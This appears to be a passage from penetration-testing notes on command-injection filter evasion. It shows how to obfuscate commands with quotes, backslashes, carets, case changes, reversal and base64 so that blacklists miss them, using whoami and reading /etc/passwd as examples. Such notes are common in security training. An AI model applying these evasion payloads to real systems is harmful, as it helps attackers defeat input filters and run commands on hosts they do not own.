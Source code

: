 * Linux/Windows: Inserting `'` or `"` in between the command characters.
```bash
wh'oa'mi
w"h"o"a"mi
```
> Qoute types cannot be mixed, and their number must be even, not odd.

* Linux only: Insert `\` or `$@` in between the command characters.
```bash
who\a\m\i
who$@ami
```
> If these characters are filtered, use the environment variables technique to get these characters first and then place them inside the command.

* Windows only: Insert `^` in between the command characters.
```cmd
who^ami
```

* Case manipulation. Blacklists might not check all case versions of a word.
1. Inverting the entire case. (All caps)
2. Alternating between cases.
```bash
WHOAMI
wHoAmI
```

> For linux and bash shells, commands are case sensitive. Therefore, we need to return them to their original case.

```bash
$(tr "[A-Z]" "[a-z]"<<<"WHOAMI")
```

* Reversed commands. First we get the reverse of the command we want, then we can send the reversed command with some reversing functionality that returns it back to normal.
1. Linux
```bash
echo 'whoami' | rev  # outputs imaohw
$(rev<<<'imaohw') 
```
2. Windows powershell
```bash
"whoami"[-1..-20] -join '' # outputs imaohw
iex "$('imaohw'[-1..-20] -join '')"
```

* Encoding the commands, this can be used to evade firewalls and filters. First we get the encoding, then we can send the encoding with its decoding functionality.

```bash
echo 'cat /etc/passwd' | base64   # outputs the base64 encoding of this command.
bash<<<$(base64 -d<<<_encoding_here_)
```

---

### Automated Tools

